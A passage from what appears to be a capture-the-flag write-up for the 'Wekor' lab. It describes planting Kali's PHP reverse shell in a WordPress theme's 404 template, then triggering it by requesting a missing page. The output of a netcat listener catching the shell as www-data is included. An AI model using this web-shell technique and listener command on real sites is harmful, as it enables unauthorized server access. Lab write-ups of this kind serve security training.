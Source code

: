 ![404 Template](/assets/images/2021/06/Wekor/06_themeEditor.png "404 Template")

I inject the PHP reverse shell that is found in `/usr/share/webshells/php/php-reverse-shell.php` in Kali. Then I can navigate to a [page that does not exists](http://site.wekor.thm/wordpress/index.php/category/uncategorized/) to get my reverse shell. 

```php
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.8.115 44812
Linux osboxes 4.15.0-132-generic #136~16.04.1-Ubuntu SMP Tue Jan 12 18:18:45 UTC 2021 i686 i686 i686 GNU/Linux
 11:48:24 up  4:59,  0 users,  load average: 0.02, 0.01, 0.75
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
